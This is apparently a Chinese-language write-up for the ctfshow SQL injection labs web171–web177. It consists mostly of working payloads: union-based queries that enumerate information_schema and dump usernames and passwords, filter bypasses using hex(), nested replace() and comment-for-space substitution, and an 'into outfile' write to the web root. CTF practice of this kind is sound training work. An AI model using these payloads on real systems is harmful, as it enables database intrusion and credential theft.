 ### web171

> 函数 group_concat(arg) 可以合并多行的某列(或多列)数据为一行，默认以逗号分隔。

拼接sql语句查找指定ID用户

`$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";`

```
1' or 1=1--+
```

判断字段数

```
1' order by 3--+
1' order by 4--+
```

```
1' union select 1,2,3 --+
```

3个均有回显

```
1' union select database(),2,3 --+
```

`ctfshow_web`

```
1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='ctfshow_web'--+
```

```
1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='ctfshow_user'--+
```

```
1' union select 1,group_concat(username,password),3 from ctfshow_user --+
```

### web172

```
1' union select database(),group_concat(username,password) from ctfshow_user2 --+--+
```

### web173

```
//检查结果是否有flag
    if(!preg_match('/flag/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

使用`hex()`编码进行桡过

```
1' union select database(),group_concat(hex(password)),3 from ctfshow_user3 --+
```

### web174

```
-1' union select replace(username,'g','j'),replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,'1','A'),'2','B'),'3','C'),'4','D'),'5','E'),'6','F'),'7','G'),'8','H'),'9','I'),'0','J'),'g','j') from ctfshow_user4 where username='flag'--+
```

### web175

```
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

过滤了ascii 0~127

直接写文件

```
1' union select 1,password from ctfshow_user5 into outfile "/var/www/html/flag"--+	
```

### web176

```
1' or 1=1--+
```

万能密码就行

### web177

过滤了空格和`--+`,`#`

```
1'/**/order/**/by/**/3%23
1'/**/union/**/select/**/1,2,3%23

1'/**/union/**/select/**/database(),group_concat(table_name),3/**/from/**/information_schema.tables/**/where/**/table_schema='ctfshow_web'%23

1'/**/union/**/select/**/database(),group_concat(column_name),3/**/from/**/information_schema.columns/**/where/**/table_name='ctfshow_user'%23

1'/**/union/**/select/**/database(),group_concat(username,password),3/**/from/**/ctfshow_user%23
```

